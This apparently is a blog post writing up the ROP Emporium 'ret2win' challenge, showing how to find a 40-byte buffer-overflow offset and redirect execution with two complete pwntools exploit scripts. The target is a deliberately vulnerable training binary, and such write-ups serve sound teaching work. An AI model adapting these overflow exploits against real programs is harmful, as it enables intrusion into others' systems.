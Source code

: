 ```yaml
---
layout: post
title: ropemporium - ret2win
date: 2024-12-23 08:00:00 +0300
description: # Add post description (optional)
img: ret2win-1.png # (optional)
fig-caption: # Add figcaption (optional)
tags: ctf
---
```


*The **ret2win** is the first challenge of **ropemporium.com**, a website made to learn Return Oriented Programming (ROP) through a variety of challenges.*

First of all, the challenge **ret2win** presents us with the following explanation
> *... the suspiciously named function `ret2win` is present and radare2 confirms that it will cat the flag back to us ...*

So there is a function named "**ret2win**", and we want to call that function.
First of all, checking the file data and security protections present:
- NX (Non executable stack)

![ret2win]({{site.baseurl}}/assets/img/ret2win-1.png)

```python
from pwn import *
elf = context.binary = ELF('./ret2win')
```

Then, checking *pwndbg*, we could get that the function exists and we could pick the address:

![ret2win]({{site.baseurl}}/assets/img/ret2win-2.png)

**Address of the function**
```
0x400756
```
*Is important to note that, since the program doesn't have any randomization (PIE, ASLR, etc.), we can get the function address without any worries.*

Then, we proceed sending a pattern string created by *msf-pattern_create* to send to the program, and as the image showed us the **SIGSEV** error, meaning a buffer overflow that corrupted the return address.   

![ret2win]({{site.baseurl}}/assets/img/ret2win-3.png)

```python
io.sendline("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
```

Then, we create a core file in order to comprehend where is the buffer overflowing, so we can check what is the exact amount of bytes needed to fill the **RIP** register.

![ret2win]({{site.baseurl}}/assets/img/ret2win-4.png)

```python
core = io.corefile
```

Then, in the "**Fault:**" field, we can get the fault address:
```
0x3562413462413362
```

Sending it to *msf-pattern_offset*, we get that the amount of bytes needed to fill the buffer is 40 bytes.

![ret2win]({{site.baseurl}}/assets/img/ret2win-5.png)

We can even check the exact pattern that was hit. 

![ret2win]({{site.baseurl}}/assets/img/ret2win-6.png)

![ret2win]({{site.baseurl}}/assets/img/ret2win-7.png)

Now, to forge the payload, we use the following principle:
```
(40 bytes to fill the buffer) + (ret2win address)
```

Which gave us the flag:

![ret2win]({{site.baseurl}}/assets/img/ret2win-8.png)

### Exploit

{% highlight python %}
from pwn import *

elf = context.binary = ELF('ret2win')

payload = b"A"*40+p64(elf.symbols.ret2win)

io = process(elf.path)
io.send(payload)
io.interactive()
{% endhighlight %}

## Automatic detection
In order to make an exploit to detect the buffer size, automatically fill the proper amount of bytes and set the RIP register to the desired function, we used the `fit()` function to pick the exact offset returned by `cyclic()` and craft a payload with the exact size. 

As said by the documentation
> *Dictionary usage permits directly using values derived from [`cyclic()`](https://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic "pwnlib.util.cyclic.cyclic")*

So is possible to send a payload using
{% highlight python %}
io.sendline(cyclic(128))
{% endhighlight %}

Then craft the payload using
{% highlight python %}
payload = fit({pattern: elf.symbols.ret2win })
{% endhighlight %}

Which gave us a possibility to craft a final exploit.

### Final exploit
{% highlight python %}
from pwn import *

elf = context.binary = ELF('./ret2win')

io = process(elf.path)
io.sendline(cyclic(128))
io.wait()
core = io.corefile
stack = core.rsp

pattern = core.read(stack, 8)
payload = fit({pattern: elf.symbols.ret2win })

io = process(elf.path)
io.send(payload)
io.interactive()
{% endhighlight %}